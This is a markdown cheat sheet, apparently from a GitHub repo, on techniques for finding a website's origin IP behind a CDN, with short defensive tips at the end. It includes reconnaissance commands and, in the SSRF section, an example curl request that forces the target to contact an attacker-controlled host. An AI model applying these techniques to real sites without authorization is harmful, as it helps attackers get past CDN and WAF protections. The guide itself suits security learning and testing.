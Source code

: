 # CDN Bypass – Techniques & Concepts
---

CDN (Content Delivery Network) is used to:

- Cache content close to users
- Mask the origin server's IP
- Provide security features (WAF, rate-limiting, DDoS protection)

CDN Bypass refers to techniques used to:

- Discover the origin server IP
- Interact directly with the backend server, bypassing CDN protections

## Common CDN Bypass Techniques
---
### 1. Find the Origin IP

Use recon tools to locate the real IP behind the CDN.

#### a. DNS History / Passive DNS

Check historical A records before CDN was used:
- [SecurityTrails](https://securitytrails.com/)
- [ViewDNS IP History](https://viewdns.info/iphistory/)
- [RiskIQ PassiveTotal](https://community.riskiq.com/)

#### b. Subdomain Enumeration
Some subdomains may not be behind the CDN:
```
amass enum -d target.com
```

#### c. Shodan / Censys Search
Search by SSL cert, favicon hash, or headers:
```
ssl.cert.subject.CN:"target.com"
http.favicon.hash:123456789
```
- [shodan.io](https://www.shodan.io/)
- [censys.io](https://search.censys.io/)

#### d. Email/Webmail Leaks
Check email headers (e.g., password reset) which might reveal origin IP.

#### e. Misconfigured DNS
Sometimes origin domain points directly to server IP (e.g., ftp.target.com).

#### f. SSL Certificate Transparency Logs
View issued certificates to discover hidden subdomains:
- [crt.sh](https://crt.sh/)
- [Certspotter](https://sslmate.com/certspotter/)

---
### 2. Test IP Candidates
Once you have potential origin IPs:
- Use `curl` or `nmap` with Host header
```
curl -H "Host: target.com" http://<origin_ip>
```
If it returns the real site -> origin IP found.

---
### 3. Check Firewall Misconfigurations
Misconfigured origin may accept direct traffic:
- `iptables` or `fail2ban` not properly restricting to CDN IPs
- Use tools like `wafw00f` to detect WAF presence/absence
```
wafw00f http://target.com
```

---
### 4. Leaked Files or Git Repos
Sometimes `.git`, `.env`, or server files are exposed via other subdomains that bypass CDN.

---
### 5. Reveal Origin IP via Application Vulnerabilities
Instead of finding the IP first, you can exploit certain vulnerabilities on the website itself (while it's still behind the CDN) to force the origin server to reveal its IP address. This is typically done by making the server initiate a connection to an external system that you control.

Key vulnerabilities for this technique include:
-   **SSRF (Server-Side Request Forgery):** This is the most common method. By exploiting an SSRF flaw, you can command the server to send a request to a URL you own. Your server's logs will then show the origin server's IP as the source of the request.
-   **Command Injection:** If you can execute commands on the server, you can use utilities like `curl`, `wget`, or `ping` to make it contact your external server.
-   **XXE (XML External Entity):** Similar to SSRF, XXE can be used to force the server to fetch an external resource, revealing its IP to you.

**Example (using an SSRF vulnerability):**
1. An attacker identifies an SSRF vulnerability in a feature on `target.com`.
2. They craft a request that forces the server to connect to their own machine (e.g., `attacker-server.com`).
```bash
# The attacker sends this request to the public website
curl "https://target.com/loadImage?url=http://attacker-server.com/reveal.txt"
```
3. The attacker checks the access logs on `attacker-server.com`. The IP address that requested `/reveal.txt` is the real IP of the origin server, successfully bypassing the CDN's protection.
---
## Defense Tips (For Blue Team)
---
- Restrict origin IP to only accept traffic from CDN IP ranges (e.g., Cloudflare IP list)
- Use firewall rules and allow-lists
- Monitor DNS records for leaks
- Regularly scan for exposed services and old records
---
---

